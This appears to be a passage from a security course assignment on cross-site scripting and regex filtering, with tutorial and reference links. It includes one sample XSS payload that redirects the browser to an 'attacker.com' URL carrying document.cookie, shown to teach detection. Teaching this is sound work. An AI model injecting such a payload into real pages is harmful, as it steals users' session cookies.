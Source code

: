 
On a successful attack, the web page would return results like the following. Each image shows the success and fail results respectively.










<h3>Resources</h3>

<em>Tutorial Document </em>

The following document gives you an in-depth introduction to XSS.           <a href="https://docs.google.com/document/d/1F7_axXzKVdqegWQDX6HmlwNchhsaLchWieOagWVzghE">https://docs.google.com/document/d/1F7_axXzKVdqegWQDX6HmlwNchhsaLchWieOagWVzgh</a>​ <a href="https://docs.google.com/document/d/1F7_axXzKVdqegWQDX6HmlwNchhsaLchWieOagWVzghE">E</a>




<em>Additional Resources </em>

You can learn the foundations of XSS and RegEx in following links:

About XSS:

<a href="https://en.wikipedia.org/wiki/Cross-site_scripting">https://en.wikipedia.org/wiki/Cross-site_scripting</a> <a href="https://gbhackers.com/xss-cross-site-scripting/">https://gbhackers.com/xss-cross-site-scripting/</a>




About REGEX:

<a href="https://en.wikipedia.org/wiki/Regular_expression">https://en.wikipedia.org/wiki/Regular_expression</a> <a href="https://www.computerhope.com/jargon/r/regex.htm">https://www.computerhope.com/jargon/r/regex.htm</a> The sample_xss_attacks.txt shows some XSS samples.

<em>Whole Script XSS</em>

A whole script attack consists of opening and closing script tags that embeds JavaScript statements in-between. Attackers inject the malicious code into the victim’s page in order to exfiltrate the sandbox (e.g., Same Origin Policy) of web browsers. For example,




&lt;script&gt;

document.location=​  “http://attacker.com/saveCookie.php?cookie=”​         +​ document     ​            ​.cookie; &lt;/script&gt;




For more details, please read this paper:

<a href="http://seclab.cs.sunysb.edu/seclab/pubs/xss.pdf">Protection, Usability and Improvements in Reflected XSS Filters</a>

<h2>     <strong>Part 1.2: Browser Extension Framebuster – (</strong><strong>20</strong>​ <strong> points)</strong>​</h2>
